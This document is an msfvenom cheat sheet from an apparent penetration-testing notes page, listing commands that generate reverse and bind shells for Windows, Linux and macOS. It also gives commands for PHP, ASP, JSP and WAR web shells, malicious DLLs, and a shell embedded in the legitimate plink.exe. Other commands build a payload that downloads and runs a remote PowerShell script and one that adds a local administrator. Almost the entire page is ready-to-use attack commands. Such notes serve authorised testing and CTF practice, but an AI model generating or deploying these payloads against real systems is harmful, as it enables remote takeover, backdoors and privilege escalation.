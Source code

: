 ```yaml
---
title: "MsfVenom"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## Windows

**Reverse Shell meterpreter** 
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.15.18 LPORT=5050 -f exe > reverse.exe
```

**Bind Shell**
```sh
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```

**CMD Shell**

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe
```

**Execute Command**
```sh
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe


msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```

**DLL** : 
```sh
msfvenom -f dll -p windows/exec CMD="C:\windows\system32\cmd.exe" -o srrstr.dll
```

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.167 LPORT=4242 -f dll > shell.dll
```

```sh
msfvenom -p windows/x64/shell_reverse_tcp -ax64 -f dll LHOST=10.8.0.173 LPORT=9001 > hostfxr.dll
```

**Embedded inside executable**

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe
```


## Linux Payloads


**Reverse Shell**
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf

msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
```

Bind Shell
```sh
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf
```


## MAC Payloads


**Reverse Shell:**

```sh
msfvenom -p osx/x86/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f macho > reverse.macho
```

**Bind Shell**

```sh
msfvenom -p osx/x86/shell_bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f macho > bind.macho
```

## Web Based Payloads

**PHP**

```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

**ASP/x**

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp
```

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx
```

**JSP**

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp
```


WAR

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war
```

NodeJS

```sh
msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)
```

## Script Language payloads

**Perl**
```sh
msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl
```

**Python**
```sh
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```

**Bash**
```sh
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```